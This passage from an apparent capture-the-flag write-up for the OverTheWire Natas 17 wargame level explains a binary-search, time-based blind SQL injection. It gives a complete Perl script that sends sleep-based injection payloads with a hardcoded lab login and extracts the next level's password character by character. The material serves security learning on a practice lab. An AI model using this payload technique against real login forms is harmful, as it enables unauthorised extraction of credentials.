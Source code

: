 Then we can, for each of the 32 password characters:

1. set a `$lowerBound` and `$upperBound`, get the middle, which will yield a `$charIndex` and a `$char`.
2. evaluate if the `$payload` above causes the request to timeout (set a timout lower than the sleep, but fairly high).
3. if the request takes longer, it means the desired character is in the upper half of the array, so go back to #2, passing the upper half indices.
4. if, however, the request is fast, we will know that the next character is in fact in the lower half of the possible characters array. Go back to #1 passing the lower half indices.

And this was my implementation.

```perl
#!/usr/bin/perl
use strict;
use warnings;
use v5.10;
use LWP::UserAgent;
use HTTP::Request::Common;
use Try::Tiny;

my $url = 'http://natas17.natas.labs.overthewire.org/index.php';
my $ua = LWP::UserAgent->new();
my @chars = split('', '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz');

sub make_request_with {
	my ($index, $char) = @_;
  my $payload = "natas18\" and strcmp(BINARY substring(password, $index, 1), \"$char\") > 0 and sleep(5) #";

	my $request = POST $url, Content => [ username => $payload ];
	$request->authorization_basic('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw');
  $ua->timeout(4);
	my $response = $ua->request($request);
  die if $response->is_error;
}

sub get_passwd_char_at_index {
	my ($index, $lower_bound, $upper_bound) = @_;

  # recursive condition check
	return $chars[$lower_bound] if ($lower_bound > $upper_bound);

	my $char_index = int( ($lower_bound + $upper_bound) / 2 );

	try {
		make_request_with($index, $chars[$char_index]);
		return get_passwd_char_at_index($index, $lower_bound, $char_index - 1);
	} catch {
		# req timed out, so answer is on upper half
		return get_passwd_char_at_index($index, $char_index + 1, $upper_bound);
	}
}

print "Sploiting...\n";
# we know passwords are 32 in length, so
my $length = @chars;
my $flag = '';
foreach (1..32) {
	$flag .= get_passwd_char_at_index($_, 0, $length - 1);
  print "$flag\n";
}
```
